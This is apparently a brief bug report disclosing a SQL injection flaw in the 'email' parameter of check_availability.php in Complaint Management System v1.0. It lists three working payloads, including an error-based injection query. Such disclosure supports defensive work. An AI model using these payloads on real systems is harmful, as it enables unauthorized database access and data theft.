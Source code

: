 # Complaint Management System v1.0 has SQL injection

BUG_Author:Qin Yiqun

Website source address:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: /Complaint Management System/users/check_availability.php

POST parameter 'email' exists SQL injection vulnerability

Payload1:email=john@gmail.com' and 'u'='u

The sql statement is executed correctly

![image](https://github.com/qinyiqun/bug_report/blob/main/sql1.png)

Payload2:email=john@gmail.com' and 'u'='w

The sql statement was executed incorrectly, causing the page not to be echoed normally

![image](https://github.com/qinyiqun/bug_report/blob/main/sql2.png)

Payload3:email=john@gmail.com' and (select 1 from(select count(*),concat(0x51525354,(select (elt(999=999,1))),0x65666768,floor(rand(0)*2))x from information_schema.plugins group by x)a) and 'v'='v

Injection success based on errors

![image](https://github.com/qinyiqun/bug_report/blob/main/sql3.png)
